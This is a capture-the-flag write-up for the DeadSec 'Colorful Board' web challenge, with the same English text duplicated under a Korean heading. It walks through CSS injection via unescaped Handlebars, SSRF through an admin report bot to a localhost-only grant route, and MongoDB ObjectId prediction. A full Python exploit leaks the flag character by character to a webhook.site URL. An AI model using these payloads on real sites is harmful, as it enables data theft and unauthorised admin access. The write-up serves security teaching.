

### Table of contents

- [Colorful Board (360pt, 15solves, 🩸firstblood)](#colorful-board-360pt-15solves-🩸firstblood)

## Colorful Board (360pt, 15solves, 🩸firstblood) {#colorful-board-en}

:::important[info]

- keywords: `css injection`, `ssrf`, `mongodb id prediection`

:::




Yay! I first-blooded CTF challenge for the first time in my life.  

### Analysis & Exploit

this challenge consists Nest.js and mongodb. First, I search a flag in the app.

```js
const init_db = async () => {
  await db.users.insertMany([
      { username: "DEAD{THIS_IS_", password: "dummy", personalColor: "#000000", isAdmin: true },
  ]);

  await delay(randomDelay());
  await db.notices.insertOne({ title: "asdf", content: "asdf" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "qwer", content: "qwer" });
}
```

the flag is devided into two and the first one is Admin's username and the second one is one of notices. And there is `/report` route that make a admin visit a url. (No restrictions on url)

After that, I found this code in `post.hbs` and `post-edit.hbs`

```hbs
<style>
  .author {
    color: {{{ author.personalColor }}}
  }

  .user {
    color: {{{ user.personalColor }}}
  }

  .edit-button {
    position: absolute;
    top: 10px;
    right: 10px;
  }
</style>
```

this code is vulnerable to css injection because they using `{{{ }}}` instead `{{ }}`. So, we can do css injection by inject some code to `author.personalColor` or `user.personalColor`.  
Let's read `post.hbs` and `post-edit.hbs` to know attack-vector.  

`post.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <div class="container">
        <h1>{{post.title}}</h1>
        <p class="author">Author: {{author.username}}</p>
        <p class="user">Your account: {{user.username}}</p>
        {{#if user.isAdmin}}
        <a href="/post/edit/{{post.id}}" class="button danger">수정</a>
        {{/if}}
        <hr>
        <div class="post-content">
            {{post.content}}
        </div>
        <a href="/post" class="button">Go to Posts</a>
    </div>
</body>
```

In `post.hbs`, there is no attack point to css injection because name of admin is revealed in `<p>` tag. ~~Nothing that could leak `innerText` of `<p>` tag.~~. It is possible this selection `#:~:text={urllib.parse.quote(flag)}` but it doesn't work on this chall.  
  
`post-edit.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <header>
        <div class="container">
            <h1>Colorful Board</h1>
            <div class="user-info">
                {{#if user}}
                <span class="username">{{user.username}}</span>
                <a onclick="logout()" class="button">Logout</a>
                {{/if}}
            </div>
        </div>
    </header>

    <main>
        <div class="container">
            <h2>Edit Post</h2>
            <p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
            <p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
            <div id="new-post">
                <div>
                    <label for="title">Title</label>
                    <input type="text" id="title" name="title" value="{{post.title}}" required>
                </div>
                <div>
                    <label for="content">Content</label>
                    <textarea id="content" name="content" required>{{post.content}}</textarea>
                </div>
                <button id="submit" class="button">Edit</button>
            </div>
        </div>
    </main>

    (some script)

    ...

</body>

</html>
```

Wow, there is `input` that shows current username!

```hbs
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

Finally we can do css injection like this code and get first part of flag.

```
input[class=user][value^="DEAD{....."]
```

To get second part of flag, we should look at the `/admin/notice` route.

in `admin.controller.ts`

```ts
@Controller('admin')
export class AdminController {
    constructor(
        private readonly adminService: AdminService
    ) { }

    @Get('/grant')
    @UseGuards(LocalOnlyGuard)
    async grantPerm(@Query('username') username: string) {
        return await this.adminService.authorize(username);
    }

    @Get('/notice')
    @UseGuards(AdminGuard)
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();

        return { notices: notices.filter(notice => !notice.title.includes("flag")) };
    }

    @Get('/report')
    async test(@Query('url') url: string) {
        await this.adminService.viewUrl(url);

        return { status: 200, message: 'Reported.' };
    }

    @Get('/notice/:id')
    @UseGuards(AdminGuard)
    @Render('notice')
    async renderNotice(@Param('id') id: Types.ObjectId) {
        const notice = await this.adminService.getNotice(id);

        return { notice: notice };
    }
}
```

To access `/admin/notice`, you need to get admin. Hmm....  
Let's read `LocalOnlyGuard` in `/admin/grant`.

```ts
@Injectable()
export class LocalOnlyGuard implements CanActivate {
    canActivate(
        context: ExecutionContext,
    ): boolean | Promise<boolean> | Observable<boolean> {
        const req = context.switchToHttp().getRequest();
        const clientIp = req.ip;
        const localIps = ['127.0.0.1', '::1', '::ffff:127.0.0.1'];

        if (localIps.includes(clientIp)) {
            return true;
        } else {
            throw new HttpException('Only Local!', 404);
        }
    }
}
```

Oh! This code only checks wheter access ip is localhost. Even this `/admin/grant` route is GET!!! So, we can use SSRF to grant our account by report function.  

After you are granted, `/admin/notice` shows only two notice because flag notice is filtered.

```ts
@Get('/notice')
@UseGuards(AdminGuard)
@Render('notice-main')
async renderAllNotice() {
  const notices = await this.adminService.getAllNotice();

  return { notices: notices.filter(notice => !notice.title.includes("flag")) };
}
```

id of first report (asdf) was `66a48616b3027e48519f2d68`  
id of sencond report (qwer) was `66a4861db3027e48519f2d6a`  

mongodb's id is predictable because of [this logic](https://github.com/andresriancho/mongo-objectid-predict?tab=readme-ov-file#mongo-objectid-introduction).  
so, id of flag report may be `66a4861{7-c}b3027e48519f2d69`

### Exploit Code
```py
import string
from requests import *
from tqdm import tqdm

url = 'https://2f64abf33c9e01b82242cf14.deadsec.quest'
flagString = ' _}'+string.ascii_letters+string.digits
eq = 5

def split_string_equally(s, n):
    length = len(s)
    part_size = length // n
    remainder = length % n

    parts = []
    start = 0

    for i in range(n):
        end = start + part_size + (1 if i < remainder else 0)
        parts.append(s[start:end])
        start = end

    return parts

def makeCSS(flag, n):
    css = ''
    print(split_string_equally(flagString, eq)[n])
    for i in split_string_equally(flagString, eq)[n]:

        css += 'input[class=user][value^="'+flag+i+'"]{background: url(\'https://webhook.site/7c6f98ef-02a0-4d77-86ba-be115fb8ed15?flag='+flag+i+'\');}\n'''
    print(css)
    return css


flag = 'DEAD{Enj0y_y0ur_'
for i in tqdm(range(len(flag), 30)):
    for j in range(eq):
        print(f'{j}exon{i}')
        post(url+'/auth/register', json={'username': f'{j}exon{i}', 'password': 'exon','personalColor': '''#000000}\n''' + makeCSS(flag, j) + 'test {\n'})
        s = Session() 
        res = s.post(url+'/auth/login', json={'username': f'{j}exon{i}', 'password': 'exon'})
        s.cookies['accessToken'] = res.json()['accessToken']
        res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})
        
        res = s.get(url+'/post/all')
        print(res.text)
        postId = res.json()[0]['_id']
        print(postId)
        
        res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
        print(res.text)
        
    a = input()
    flag += a


post(url+'/auth/register', json={'username': 'exon', 'password': 'exon','personalColor': '''#000000}\n
input{background: url('http://localhost:1337/admin/grant?username=exon');}\n
test {\n'''})
s = Session() 
res = s.post(url+'/auth/login', json={'username': 'exon', 'password': 'exon'})
s.cookies['accessToken'] = res.json()['accessToken']
res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})

res = s.get(url+'/post/all')
print(res.text)
postId = res.json()[0]['_id']
print(postId)

res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
print(res.text)


# 66a48616b3027e48519f2d68

# 66a48616b3027e48519f2d69

# 66a4861db3027e48519f2d6a

# hand brute-force
```

FLAG: `DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}`

# 한국어
### Table of contents

- [Colorful Board (360pt, 15solves, 🩸firstblood)](#colorful-board-360pt-15solves-🩸firstblood)

## Colorful Board (360pt, 15solves, 🩸firstblood)

:::important[info]

- keywords: `css injection`, `ssrf`, `mongodb id prediection`

:::


Yay! I first-blooded CTF challenge for the first time in my life.  

### Analysis & Exploit

this challenge consists Nest.js and mongodb. First, I search a flag in the app.

```js
const init_db = async () => {
  await db.users.insertMany([
      { username: "DEAD{THIS_IS_", password: "dummy", personalColor: "#000000", isAdmin: true },
  ]);

  await delay(randomDelay());
  await db.notices.insertOne({ title: "asdf", content: "asdf" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

  await delay(randomDelay());
  await db.notices.insertOne({ title: "qwer", content: "qwer" });
}
```

the flag is devided into two and the first one is Admin's username and the second one is one of notices. And there is `/report` route that make a admin visit a url. (No restrictions on url)

After that, I found this code in `post.hbs` and `post-edit.hbs`

```hbs
<style>
  .author {
    color: {{{ author.personalColor }}}
  }

  .user {
    color: {{{ user.personalColor }}}
  }

  .edit-button {
    position: absolute;
    top: 10px;
    right: 10px;
  }
</style>
```

this code is vulnerable to css injection because they using `{{{ }}}` instead `{{ }}`. So, we can do css injection by inject some code to `author.personalColor` or `user.personalColor`.  
Let's read `post.hbs` and `post-edit.hbs` to know attack-vector.  

`post.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <div class="container">
        <h1>{{post.title}}</h1>
        <p class="author">Author: {{author.username}}</p>
        <p class="user">Your account: {{user.username}}</p>
        {{#if user.isAdmin}}
        <a href="/post/edit/{{post.id}}" class="button danger">수정</a>
        {{/if}}
        <hr>
        <div class="post-content">
            {{post.content}}
        </div>
        <a href="/post" class="button">Go to Posts</a>
    </div>
</body>
```

In `post.hbs`, there is no attack point to css injection because name of admin is revealed in `<p>` tag. ~~Nothing that could leak `innerText` of `<p>` tag.~~. It is possible this selection `#:~:text={urllib.parse.quote(flag)}` but it doesn't work on this chall.  
  
`post-edit.hbs`

```hbs
(The css code that came out earlier)

...

<body>
    <header>
        <div class="container">
            <h1>Colorful Board</h1>
            <div class="user-info">
                {{#if user}}
                <span class="username">{{user.username}}</span>
                <a onclick="logout()" class="button">Logout</a>
                {{/if}}
            </div>
        </div>
    </header>

    <main>
        <div class="container">
            <h2>Edit Post</h2>
            <p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
            <p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
            <div id="new-post">
                <div>
                    <label for="title">Title</label>
                    <input type="text" id="title" name="title" value="{{post.title}}" required>
                </div>
                <div>
                    <label for="content">Content</label>
                    <textarea id="content" name="content" required>{{post.content}}</textarea>
                </div>
                <button id="submit" class="button">Edit</button>
            </div>
        </div>
    </main>

    (some script)

    ...

</body>

</html>
```

Wow, there is `input` that shows current username!

```hbs
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

Finally we can do css injection like this code and get first part of flag.

```
input[class=user][value^="DEAD{....."]
```

To get second part of flag, we should look at the `/admin/notice` route.

in `admin.controller.ts`

```ts
@Controller('admin')
export class AdminController {
    constructor(
        private readonly adminService: AdminService
    ) { }

    @Get('/grant')
    @UseGuards(LocalOnlyGuard)
    async grantPerm(@Query('username') username: string) {
        return await this.adminService.authorize(username);
    }

    @Get('/notice')
    @UseGuards(AdminGuard)
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();

        return { notices: notices.filter(notice => !notice.title.includes("flag")) };
    }

    @Get('/report')
    async test(@Query('url') url: string) {
        await this.adminService.viewUrl(url);

        return { status: 200, message: 'Reported.' };
    }

    @Get('/notice/:id')
    @UseGuards(AdminGuard)
    @Render('notice')
    async renderNotice(@Param('id') id: Types.ObjectId) {
        const notice = await this.adminService.getNotice(id);

        return { notice: notice };
    }
}
```

To access `/admin/notice`, you need to get admin. Hmm....  
Let's read `LocalOnlyGuard` in `/admin/grant`.

```ts
@Injectable()
export class LocalOnlyGuard implements CanActivate {
    canActivate(
        context: ExecutionContext,
    ): boolean | Promise<boolean> | Observable<boolean> {
        const req = context.switchToHttp().getRequest();
        const clientIp = req.ip;
        const localIps = ['127.0.0.1', '::1', '::ffff:127.0.0.1'];

        if (localIps.includes(clientIp)) {
            return true;
        } else {
            throw new HttpException('Only Local!', 404);
        }
    }
}
```

Oh! This code only checks wheter access ip is localhost. Even this `/admin/grant` route is GET!!! So, we can use SSRF to grant our account by report function.  

After you are granted, `/admin/notice` shows only two notice because flag notice is filtered.

```ts
@Get('/notice')
@UseGuards(AdminGuard)
@Render('notice-main')
async renderAllNotice() {
  const notices = await this.adminService.getAllNotice();

  return { notices: notices.filter(notice => !notice.title.includes("flag")) };
}
```

id of first report (asdf) was `66a48616b3027e48519f2d68`  
id of sencond report (qwer) was `66a4861db3027e48519f2d6a`  

mongodb's id is predictable because of [this logic](https://github.com/andresriancho/mongo-objectid-predict?tab=readme-ov-file#mongo-objectid-introduction).  
so, id of flag report may be `66a4861{7-c}b3027e48519f2d69`

### Exploit Code
```py
import string
from requests import *
from tqdm import tqdm

url = 'https://2f64abf33c9e01b82242cf14.deadsec.quest'
flagString = ' _}'+string.ascii_letters+string.digits
eq = 5

def split_string_equally(s, n):
    length = len(s)
    part_size = length // n
    remainder = length % n

    parts = []
    start = 0

    for i in range(n):
        end = start + part_size + (1 if i < remainder else 0)
        parts.append(s[start:end])
        start = end

    return parts

def makeCSS(flag, n):
    css = ''
    print(split_string_equally(flagString, eq)[n])
    for i in split_string_equally(flagString, eq)[n]:

        css += 'input[class=user][value^="'+flag+i+'"]{background: url(\'https://webhook.site/7c6f98ef-02a0-4d77-86ba-be115fb8ed15?flag='+flag+i+'\');}\n'''
    print(css)
    return css


flag = 'DEAD{Enj0y_y0ur_'
for i in tqdm(range(len(flag), 30)):
    for j in range(eq):
        print(f'{j}exon{i}')
        post(url+'/auth/register', json={'username': f'{j}exon{i}', 'password': 'exon','personalColor': '''#000000}\n''' + makeCSS(flag, j) + 'test {\n'})
        s = Session() 
        res = s.post(url+'/auth/login', json={'username': f'{j}exon{i}', 'password': 'exon'})
        s.cookies['accessToken'] = res.json()['accessToken']
        res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})
        
        res = s.get(url+'/post/all')
        print(res.text)
        postId = res.json()[0]['_id']
        print(postId)
        
        res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
        print(res.text)
        
    a = input()
    flag += a


post(url+'/auth/register', json={'username': 'exon', 'password': 'exon','personalColor': '''#000000}\n
input{background: url('http://localhost:1337/admin/grant?username=exon');}\n
test {\n'''})
s = Session() 
res = s.post(url+'/auth/login', json={'username': 'exon', 'password': 'exon'})
s.cookies['accessToken'] = res.json()['accessToken']
res = s.post(url+'/post/write', json={'content': 'test', 'title': 'test'})

res = s.get(url+'/post/all')
print(res.text)
postId = res.json()[0]['_id']
print(postId)

res = s.get(url+'/admin/report?url=http://localhost:1337/post/edit/'+postId)
print(res.text)


# 66a48616b3027e48519f2d68

# 66a48616b3027e48519f2d69

# 66a4861db3027e48519f2d6a

# hand brute-force
```

FLAG: `DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}`